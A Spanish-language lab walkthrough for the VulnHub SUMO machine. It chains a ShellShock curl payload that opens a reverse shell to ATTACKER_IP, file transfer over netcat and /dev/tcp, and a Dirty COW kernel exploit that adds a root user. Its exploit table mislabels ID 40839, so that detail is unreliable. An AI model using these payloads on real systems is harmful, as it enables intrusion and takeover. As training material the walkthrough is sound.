



# 💻 Explotación de Kernel: De Web a Root

> [!info] Objetivo del laboratorio
> Esta práctica demuestra un flujo completo de compromiso: desde la explotación inicial de un servicio web vulnerable (ShellShock) hasta la escalada de privilegios mediante vulnerabilidades del kernel.

---

## 📋 Tabla de Contenidos
- [Fundamentos Teóricos](#fundamentos-teóricos)
- [Configuración del Laboratorio](#configuración-del-laboratorio)
- [Fase 1: Reconocimiento](#fase-1-reconocimiento)
- [Fase 2: Explotación Web (ShellShock)](#fase-2-explotación-web-shellshock)
- [Fase 3: Escalada de Privilegios](#fase-3-escalada-de-privilegios)
- [Análisis Post-Explotación](#análisis-post-explotación)

---

## 🧠 Fundamentos Teóricos

### ¿Qué es la explotación de kernel?

La explotación de kernel aprovecha vulnerabilidades en el núcleo del sistema operativo para obtener privilegios de administrador. El kernel gestiona los recursos del sistema y controla el acceso entre aplicaciones y hardware.

### Conceptos clave:

- **Kernel Space vs User Space**: Separación de privilegios entre sistema y aplicaciones
- **Race Conditions**: Condiciones de carrera que pueden ser explotadas
- **Buffer Overflows**: Desbordamientos que permiten ejecutar código malicioso
- **Privilege Escalation**: Técnicas para obtener privilegios superiores



---

## 🔧 Configuración del Laboratorio

### Descarga y configuración de SUMO: 1

```bash
# Descargar desde VulnHub
wget https://download.vulnhub.com/sumo/sumo.ova

# Importar en VirtualBox
VBoxManage import sumo.ova

# Alternativamente en VMware
# Usar archivo > abrir > seleccionar sumo.ova
```

> [!tip] Configuración de red
> Asegúrate de que la máquina virtual esté en la misma red que tu sistema atacante (NAT o Bridged según tu configuración).

---

## 🎯 Fase 1: Reconocimiento

### Descubrimiento de la IP objetivo

Utilizamos [[arp-scan]] para identificar dispositivos en la red local:

```bash
# Escanear toda la red local con interfaz específica
arp-scan -I eth0 --localnet --ignoredups
```

> [!example] Explicación de parámetros
> - **`-I eth0`**: Especifica la interfaz de red a utilizar
> - **`--localnet`**: Escanea toda la red local automáticamente
> - **`--ignoredups`**: Ignora direcciones MAC duplicadas

**Salida esperada:**
```
Interface: eth0, type: EN10MB, MAC: 00:0c:29:xx:xx:xx, IPv4: 192.168.1.100
Starting arp-scan 1.9.7 with 256 hosts
192.168.1.1     aa:bb:cc:dd:ee:ff       Cisco Systems
192.168.1.150   11:22:33:44:55:66       VMware, Inc.  # <-- Objetivo
192.168.1.254   77:88:99:aa:bb:cc       Netgear
```

### Enumeración de directorios web

Con la IP identificada, procedemos a enumerar directorios web usando [[gobuster]]:

```bash
# Descubrimiento de directorios principales
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
    -u http://IP_MAQUINA/ \
    -t 20 \
    --add-slash
```

> [!example] Explicación de parámetros
> - **`-w`**: Especifica la wordlist para el diccionario
> - **`-u`**: URL objetivo
> - **`-t 20`**: Número de hilos concurrentes
> - **`--add-slash`**: Agrega "/" al final para identificar directorios

**Resultado clave:**
```
/cgi-bin/             (Status: 200) [Size: 3452]
```

### Enumeración de scripts CGI

Al encontrar `/cgi-bin/`, buscamos scripts ejecutables:

```bash
# Buscar scripts con extensiones comunes
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
    -u http://IP_MAQUINA/cgi-bin/ \
    -t 20 \
    -x sh,pl,py,php,cgi
```

> [!info] ¿Por qué CGI-BIN es importante?
> El directorio `/cgi-bin/` tradicionalmente aloja scripts ejecutables del servidor web. Estos scripts son candidatos perfectos para ataques [[Ataque ShellShock]] ya que pueden invocar bash para procesar variables de entorno.

---

## 💥 Fase 2: Explotación Web (ShellShock)

### Detección de vulnerabilidad ShellShock

```bash
# Test básico de ShellShock
curl -H "User-Agent: () { :; }; /usr/bin/whoami" http://IP_MAQUINA/cgi-bin/script.cgi
```

### Explotación para obtener shell reversa



#### Paso 1: Configurar listener

```bash
# Escuchar en puerto 443 (menos sospechoso)
nc -nlvp 443
```

#### Paso 2: Ejecutar payload de reverse shell

```bash
# Payload básico de reverse shell
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```

#### Paso 3: Enviar exploit completo

```bash
# Exploit ShellShock completo con reverse shell
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'" \
    http://IP_MAQUINA/cgi-bin/script.cgi
```

> [!warning] Importante
> Reemplaza `ATTACKER_IP` con tu dirección IP real. Verifica que no haya firewalls bloqueando la conexión reversa.

### Mejorar la shell obtenida

Una vez establecida la conexión, aplicamos [[Tratamiento de TTY]]:

```bash
# 1. Generar TTY interactiva
script /dev/null -c bash

# 2. Suspender proceso
# Ctrl + Z

# 3. Configurar modo raw (en tu máquina atacante)
stty raw -echo; fg

# 4. Reactivar (presionar Enter)

# 5. Configurar variables de entorno
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

---

## 🚀 Fase 3: Escalada de Privilegios

### Enumeración del sistema

```bash
# Verificar usuario actual
whoami
# Salida: www-data

# Obtener información del sistema operativo
lsb_release -a
```

**Información del sistema objetivo:**
```
Distributor ID: Ubuntu
Description:    Ubuntu 12.04.5 LTS
Release:        12.04
Codename:       precise
```

```bash
# Información del kernel
uname -a
```

**Información del kernel:**
```
Linux sumo 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

### Búsqueda de exploits con SearchSploit

Con la información del kernel (versión 3.2), buscamos exploits:

```bash
# Buscar exploits para kernel Linux 3.2
searchsploit linux kernel 3.2
```

**Exploits relevantes encontrados:**

| Exploit ID | Descripción | Tipo |
|------------|-------------|------|
| 40839 | Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/12.10 x64) - 'perf_swevent_init' | Local |
| 40871 | Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' PTRACE_POKEDATA Race Condition | Local |

> [!info] Dirty COW explicado
> Dirty COW es una vulnerabilidad de [[Condiciones de Carrera (Race Conditions)]] que permite modificar archivos de solo lectura, incluyendo `/etc/passwd`, para crear usuarios con privilegios de root.

### Descarga y transferencia del exploit

```bash
# Descargar exploit PTRACE_POKEDATA (ID: 40839)
searchsploit -m 40839.c
```

#### Métodos de transferencia

**Opción 1: Servidor web con Python**
```bash
# En máquina atacante
python3 -m http.server 8080

# En máquina objetivo
wget http://ATTACKER_IP:8080/40839.c
```

**Opción 2: Transferencia por netcat**
```bash
# En máquina atacante
nc -nlvp 1234 < 40839.c

# En máquina objetivo
cat < /dev/tcp/ATTACKER_IP/1234 > 40839.c
```

### Compilación y ejecución del exploit

```bash
# Verificar instrucciones de compilación en el código fuente
head -20 40839.c | grep -E "(gcc|compile)"

# Compilar el exploit (instrucciones del comentario)
gcc -pthread 40839.c -o dirty -lcrypt

# Verificar permisos de ejecución
chmod +x dirty

# Ejecutar exploit
./dirty
```

> [!example] Funcionamiento del exploit
> El exploit Dirty COW:
> 1. Explota una condición de carrera en la función `get_user_pages()`
> 2. Modifica `/etc/passwd` mientras está siendo accedido
> 3. Crea un usuario `firefart` con UID 0 (root)
> 4. Permite acceso root con contraseña conocida

### Verificación de escalada exitosa

```bash
# Verificar que se creó el usuario firefart
cat /etc/passwd | grep firefart
```

**Resultado esperado:**
```
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
```

```bash
# Cambiar a usuario root
su firefart
# Introducir contraseña (generalmente "firefart" o la especificada en el exploit)

# Verificar privilegios
whoami
# Salida: root

# Obtener shell root completa
id
```

---

## 📊 Análisis Post-Explotación

### Flujo completo del ataque



### Lecciones aprendidas

> [!success] Técnicas empleadas
> 1. **Reconocimiento activo**: ARP scan para descubrimiento de hosts
> 2. **Enumeración web**: Gobuster para mapeo de directorios
> 3. **Explotación de aplicación**: ShellShock en scripts CGI
> 4. **Post-explotación**: Mejora de shell con TTY
> 5. **Escalada local**: Exploit de kernel (Dirty COW)
> 6. **Persistencia**: Creación de usuario root

### Medidas de prevención

> [!warning] Para administradores
> - **Actualizar sistemas**: Mantener kernel y software actualizado
> - **Deshabilitar CGI**: Si no es necesario para la aplicación
> - **Segmentación**: Aislar servicios web de sistemas críticos
> - **Monitoreo**: Implementar detección de comportamiento anómalo
> - **Principio de menor privilegio**: Ejecutar servicios web con usuarios limitados

---

## 🔗 Referencias y herramientas utilizadas

- [[arp-scan]] - Descubrimiento de hosts en red local
- [[Ataque ShellShock]] - Vulnerabilidad en GNU Bash
- [[gobuster]] - Enumeración de directorios web
- [[netcat]] - Herramienta de red para conexiones
- [[Tratamiento de TTY]] - Mejora de shells interactivas
- [[searchsploit]] - Búsqueda de exploits locales
- [[Condiciones de Carrera (Race Conditions)]] - Fundamentos teóricos

> [!note] Consideraciones éticas
> Esta práctica debe realizarse únicamente en entornos controlados y con autorización explícita. El uso de estas técnicas en sistemas sin permiso es ilegal y puede tener consecuencias legales graves.